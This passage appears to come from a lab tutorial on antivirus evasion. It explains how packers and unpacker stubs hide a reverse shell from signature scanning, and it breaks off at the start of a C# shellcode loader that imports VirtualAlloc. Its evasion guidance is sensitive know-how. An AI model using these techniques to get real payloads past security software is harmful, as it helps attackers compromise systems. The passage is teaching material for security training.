 1. The unpacker gets executed first, as it is the executable's entry point.
2. The unpacker reads the packed application's code.
3. The unpacker will write the original unpacked code somewhere in memory and direct the execution flow of the application to it.

### Packers and AVs

By now, we can see how packers help bypass AV solutions. Let's say you built a reverse shell executable, but the AV  is catching it as malicious because it matches a known signature. In  this case, using a packer will transform the reverse shell executable so that it doesn't match any known signatures while on disk. As a result,  you should be able to distribute your payload to any machine's disk  without much problem.

AV solutions, however, could still catch your packed application for a couple of reasons:

- While your original code might be transformed into something  unrecognizable, remember that the packed executable contains a stub with the unpacker's code. If the unpacker has a known signature, AV solutions might still flag any packed executable based on the unpacker stub alone.
- At some point, your application will unpack the original code into memory so that it can be executed. If the AV solution you are trying to bypass can do in-memory scans, you might still be detected after your code is unpacked.

### Packing our shellcode

Let's start from a basic C# shellcode. You can also find this code in your Windows machine at `C:\Tools\CS Files\UnEncStagelessPayload.cs`:

<details open=""><summary><u><i>Full Payload Code (Click to read)</i><br>
</u>
</summary>
<pre class=" language-csharp" tabindex="0"><code class=" language-csharp"><span class="token keyword">using</span> <span class="token namespace">System</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Net</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Text</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Configuration<span class="token punctuation">.</span>Install</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Runtime<span class="token punctuation">.</span>InteropServices</span><span class="token punctuation">;</span>
<span class="token keyword">using</span> <span class="token namespace">System<span class="token punctuation">.</span>Security<span class="token punctuation">.</span>Cryptography<span class="token punctuation">.</span>X509Certificates</span><span class="token punctuation">;</span>

<span class="token keyword">public</span> <span class="token keyword">class</span> <span class="token class-name">Program</span> <span class="token punctuation">{</span>
  <span class="token punctuation">[</span><span class="token attribute"><span class="token class-name">DllImport</span><span class="token attribute-arguments"><span class="token punctuation">(</span><span class="token string">"kernel32"</span><span class="token punctuation">)</span></span></span><span class="token punctuation">]</span>
  <span class="token keyword">private</span> <span class="token keyword">static</span> <span class="token keyword">extern</span> <span class="token return-type class-name">UInt32</span> <span class="token function">VirtualAlloc</span><span class="token punctuation">(</span><span class="token class-name">UInt32</span> lpStartAddr<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> size<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> flAllocationType<span class="token punctuation">,</span> <span class="token class-name">UInt32</span> flProtect<span class="token punctuation">)</span><span class="token punctuation">;</span>
